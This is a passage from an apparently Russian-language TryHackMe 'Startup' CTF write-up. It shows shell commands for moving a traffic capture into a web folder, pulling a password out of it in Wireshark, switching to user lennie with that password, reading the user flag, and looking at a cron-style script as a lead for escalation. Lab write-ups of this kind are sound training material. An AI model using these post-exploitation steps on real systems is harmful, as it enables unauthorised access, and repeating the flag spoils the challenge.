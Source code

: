 ```
 * Видем файлик *suspicious.pcapng*
Это видимо какой-то файлик с трафиком (понял это по расширению **.pcapng**)
Давайте скопируем этот файлик в дерикторию ftp, чтобы мы смогли его скачать.

```
www-data@startup:/incidents$ cp suspicious.pcapng /var/www/html/files/ftp
www-data@startup:/incidents$ cd /var/www/html/files/ftp
www-data@startup:/var/www/html/files/ftp$ ls
index.php  linpeas.sh  suspicious.pcapng
www-data@startup:/var/www/html/files/ftp$ 

```


Заходим на веб и скачиваем этот файлик к себе на хост))
```
http://10.10.46.240/files/ftp/suspicious.pcapng
```

Открываем этот файлик в WireShark
![](https://i.imgur.com/lFlnZVm.png)

Далее правой кнопкой смотрим TCP пакеты
![](https://i.imgur.com/ZGkFObN.png)


И находим интересные пакетики:
![](https://i.imgur.com/CxGq8Mo.png)

Пробуем этот пароль использовать, чтобы залогиниться за lennie

```
www-data@startup:/var/www/html/files/ftp$ su -l lennie
Password: c4ntg3t3n0ughsp1c3
$ whoami
lennie
$ id
uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
$ /bin/bash
lennie@startup:~$
```
Хах) У нас получилось))
Отлично, идем дальше мы попали в домашнюю директорию попробуем посмотреть, что тут лежит.
```
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```
А это файлик *user.txt*, в котором лежит флаг))

Идем дальше, помимо флага, у нас 2 дериктории и самая интересная это *scripts*. Заходим туда.
```
lennie@startup:~$ cd scripts
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ 
```
```
